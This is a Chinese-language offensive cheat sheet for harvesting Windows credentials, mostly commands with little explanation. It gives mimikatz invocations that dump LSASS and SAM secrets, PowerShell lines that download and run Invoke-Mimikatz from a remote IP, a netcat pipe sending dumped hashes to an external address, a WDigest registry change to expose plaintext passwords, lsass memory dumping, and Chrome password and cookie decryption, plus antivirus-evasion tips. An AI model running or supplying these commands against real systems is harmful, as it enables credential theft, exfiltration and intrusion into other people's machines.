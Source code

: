 # 凭证信息收集

## 凭证获取工具

常用来获取 windows 密码的工具:
1、mimikatz
2、wce
3、pwddump7
4、ophcrack
5、procdump+mimikatz
6、LaZagne

密码 HASH
LM & NTLM

Windows 本地 hash:
https://www.secpulse.com/archives/65256.html

Vindows 系统下 hash 密码格式:
用户名称:RID:LM-HASH 值:NT-HASH 值

## Mimikatz

mimikatz For Win10T 载:

https://github.com/gentilkiwi/mimikatz/releases

本地非交互式凭证获取:

```ts
mimikatz.exe "log logon.txt" "privilege::debug" "sekurlsa::logonpasswords" " exit"
mimikatz.exe "log res.txt" "privilege::debug" "token::elevate" "lsadump::sam" "exit"
```

**1x 版本:**

```sh
privilege::debug       //提升权限
inject::process lsass.exe sekurlsa.dl   //注入sekurlsa.dl到lsass.exe进程里
@getLogonPasswords     //获取密码
```

**Powershell 远程加载 mimikatz 脚本**

```ts
// IEX是加载到内存中执行的。
powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.130/1');Invoke-Mimikatz -DumpCreds
powershell "IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.130/1');Invoke-Mimikatz -DumpCreds"
```

杀软绕过: 1.大写小写。 2.用+号 拼凑。。
[Mimikatz 的 18 种免杀姿势及防御策略](https://www.freebuf.com/articles/system/234365.html)

```ts
v2.0 https://github.com/PowerShellMafia/PowerSploit/raw/master/Exfiltration/Invoke-Mimikatz.ps1
v2.2 https://raw.githubusercontent.com/Mr-xn/Penetration_Testing_POC/master/tools/Invoke-Mimikatz.ps1
```

输出重定向

```sh
攻击机: nc -lvvp 6666 > pass123.txt
靶机  : mimikatz.exe "log res.txt" "privilege::debug" "token::elevate" "lsadump::sam" "exit" | nc.exe -v 47.101.214.85 6666
```

powershell IEX (New-Object Net.WebClient).DownloadString('https://127.0.0.1/f');Get-PassHashes // 不好使

### windows server 2012 及以上的系统明文

通过添加注册表，再通过例如锁屏、注销或重启等操作，让管理员重新登录及可以读取明文。

```sh
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```

### FAQ 不能执行 powershell 远程命令

```ps
set-ExecutionPolicy RemoteSigned
或 Set-ExecutionPolicy -Scope CurrentUser
get-ExecutionPolicy
```

## 导出密码的几种方式

https://www.daimajiaoliu.com/daima/486f56b9d900403

procdump 导出

```ts
procdump64.exe -accepteula -ma lsass.dmp
mimikatz
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonPasswords full
```

## wce 获取明文密码 win7 及以下

wce -w

## pwddump7 获取 hash

Pwddump7.exe > pass.txt
https://www.objectif-securite.ch/ophcrack

如果网站无法破解出 hash 值·我们可以使用 ophcrack 工具配合彩虹表自己破解.
工具下载:https://ophcrack.sourceforge.io/
彩虹表:
https://ophcrack.sourceforge.io/tables.php
http://project-rainbowcrack.com/table.htm

## Procdump+Mimikatz

Procdump lsass 进程导出:
For 32bits: procdump.exe -accepteula -ma lsass.exe lsass.dmp
For 64bits: procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp
然后使用 mimikatz 还原密码:
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" "exit"

## 注册表导出 hash

reg save HKLM\SYSTEM system.hiv
reg save HKLM\SAM sam.hiv
reg save HKLM\SECURITY security.hiv
导出后可以使用 cain 导人 system.hiv.security.hiv 获取统存中的明文信息.
mimikatz "lsadump sam /system:system.hiv /sam:sam.hiv" exit

python3 -m pip install impacket
windows: python secretsdump.py -sam sam.hiv -security security.hiv-system system.hiv LOCAL
linux: impacket -secretsdump -system system.hiv -ntds ntds.dit LOCAL

## sharpdump

## Windows Wifi 密码的获取

netsh wlan show profile
netsh wlan show profile name="ssid" key=clear

## 看 hosts

C:\Windows\System32\drivers\etc\hosts

## Windows IIS config

lIS6:
cscript.exe C:\Inetpub\AdminScripts\adsutil.vbs ENUM W3SVC/1/root

IIS7,8:
列出网站列表:%systemroot%/system32/inetsrv/appcmd.exe list site
列出网站物理路:%systemroot%\system32\inetsr\appcmd.exe list vdir
Mimikatz 读取 lIS7 配置文件密码:
mimikatz.exe privilege:debug log "iis:apphost /in:"%systemroot%\system32\inetsr\config\applicationHost.config" /live" exit

## windows 回收站信息获取

FOR /f "skip=1 tokens=1,2 delims=" %c in ('wmic useraccount get name^,sid') do dir /a/b C:\$Recycle.Bin\%d\ ^>%c.txt

## Chrpme 的密码和 cookie 获取

%localappdata%\Google\chrome\USERDA~1\default\LOGIND~ 1
%localappdata%\Google\chrome\USERDA~1\default\cookies

chrome 的用户信息·保存在本地文件为 sqlite 数据库格式

mimikatz.exe privilege::debug log "dpapi::chrome /in:%localappdata%\google\chrome\USERDA~1\default\cookies /unprotect" exit

mimikatz.exe privilege::debug log "dpapi::chrome /in:%localappdata%\google\chrome\USERDA~1\default\LOGIND~1" exit # 读 chrome 密码

## **lazagne** 综合获取信息
